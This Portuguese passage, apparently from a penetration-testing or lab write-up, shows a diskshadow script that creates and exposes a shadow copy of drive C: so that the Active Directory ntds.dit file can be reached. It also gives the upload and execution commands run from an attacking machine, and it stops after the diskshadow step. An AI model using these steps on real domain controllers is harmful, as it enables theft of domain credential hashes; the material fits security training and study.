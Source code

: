 O que podemos fazer é criar um Arquivo Shell Distribuído (DSH). Este arquivo conterá os comandos apropriados para executarmos o utilitário diskshadow na unidade C: e, por fim, no arquivo ntds.dit.

`viper.dsh`

```
set context persistent nowriters
add volume c: alias viper
create
expose %viper% x:
```


Após a conclusão, use o comando `unix2dos`para converter o arquivo para o formato DOS.
```
unix2dos viper.dsh
```


`New-Item -Type Directory C:\temp`
![](attachment/395ed94df797f46b62cec5f0a3f043fc.png)


`upload <local onde está o arquivo viper.dsh na máquina atacante>`
![](attachment/bbec640052f17696c423eff650584fdb.png)


`diskshadow /s viper.dsh`